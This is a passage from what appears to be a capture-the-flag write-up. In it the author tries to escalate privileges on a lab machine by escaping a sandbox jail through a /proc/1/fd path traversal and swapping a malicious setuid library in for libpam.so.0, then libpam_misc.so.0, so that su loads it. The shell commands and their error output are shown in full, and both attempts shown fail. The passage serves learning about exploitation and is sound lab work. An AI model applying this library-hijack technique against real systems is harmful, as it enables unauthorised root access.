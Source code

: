 I’ll run the same loop as before, but this time, after copying all the libraries into the jail, I’ll copy my library on top of `libpam.so.0` with this command:

```

./sandbox /dev/shm/runsu a &
until [ -d jails/a ]; do 
  sleep 1; 
done 
cp -r /lib/x86_64-linux-gnu/* jails/a/usr/lib/
cp /dev/shm/setuidlib.so jails/a/usr/lib/libpam.so.0
echo "copied libs"

```

When I run that, it errors out:

```

clarence@scanned:/var/www/malscanner/sandbox$ ./sandbox /dev/shm/runsu a & until [ -d jails/a ]; do sleep 1; done; cp -r /lib/x86_64-linux-gnu/* jails/a/usr/lib/; cp /dev/shm/setuidlib.so jails/a/usr/lib/libpam.so.0; echo "copied libs"
[1] 124277
copied libs
clarence@scanned:/var/www/malscanner/sandbox$ /proc/1/fd/3/../../../../../../../usr/bin/su: /lib/libpam.so.0: no version information available (required by /proc/1/fd/3/../../../../../../../usr/bin/su)
/proc/1/fd/3/../../../../../../../usr/bin/su: /lib/libpam.so.0: no version information available (required by /lib/libpam_misc.so.0)
/proc/1/fd/3/../../../../../../../usr/bin/su: symbol lookup error: /lib/libpam_misc.so.0: undefined symbol: pam_putenv, version LIBPAM_1.0
Exited
Kill err: (3)

```

It’s complaining that there’s no version information in my library, and that `libpam_misc.so.0` requires it. It’s also complaining that `libpam_misc.so.0` needs the `pam_putenv` method from `libpam.so.0`.

I could go down trying to fix these by implementing the version info and the `pam_putenv` function (described [here](https://man7.org/linux/man-pages/man3/pam_putenv.3.html)).

Instead, I’ll try overwriting the `libpam_misc.so.0` library instead, on the idea that this “misc” library may provide less critical purpose to `su`.

```

clarence@scanned:/var/www/malscanner/sandbox$ ./sandbox /dev/shm/runsu a & until [ -d jails/a ]; do sleep 1; done; cp -r /lib/x86_64-linux-gnu/* jails/a/usr/lib/; cp /dev/shm/setuidlib.so jails/a/usr/lib/libpam_misc.so.0; echo "copied libs"
[1] 124368
copied libs
clarence@scanned:/var/www/malscanner/sandbox$ /proc/1/fd/3/../../../../../../../usr/bin/su: /lib/libpam_misc.so.0: no version information available (required by /proc/1/fd/3/../../../../../../../usr/bin/su)
/proc/1/fd/3/../../../../../../../usr/bin/su: symbol lookup error: /proc/1/fd/3/../../../../../../../usr/bin/su: undefined symbol: misc_conv, version LIBPAM_MISC_1.0
Exited
Kill err: (3)

```
